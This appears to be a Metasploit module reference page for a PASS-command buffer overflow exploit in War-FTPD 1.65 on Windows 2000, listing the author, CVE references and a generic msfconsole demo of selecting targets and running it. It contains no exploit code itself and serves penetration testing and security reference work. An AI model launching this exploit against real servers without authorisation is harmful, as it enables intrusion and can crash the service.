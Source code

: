 ## War-FTPD 1.65 Password Overflow

This exploits the buffer overflow found in the PASS command 
in War-FTPD 1.65. This particular module will only work 
reliably against Windows 2000 targets. The server must be 
configured to allow anonymous logins for this exploit to 
succeed. A failed attempt will bring down the service 
completely.


## Module Name
exploit/windows/ftp/warftpd_165_pass

## Authors
hdm


## References
* http://cvedetails.com/cve/1999-0256/
* http://www.osvdb.org/875
* http://www.securityfocus.com/bid/10078



## Targets
* Windows 2000


## Platforms
* win

## Reliability
[Average](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use exploit/windows/ftp/warftpd_165_pass
msf exploit(warftpd_165_pass) > show targets
   ... a list of targets ...
msf exploit(warftpd_165_pass) > set TARGET <target-id>
msf exploit(warftpd_165_pass) > show options
   ... show and set options ...
msf exploit(warftpd_165_pass) > run
```
    
    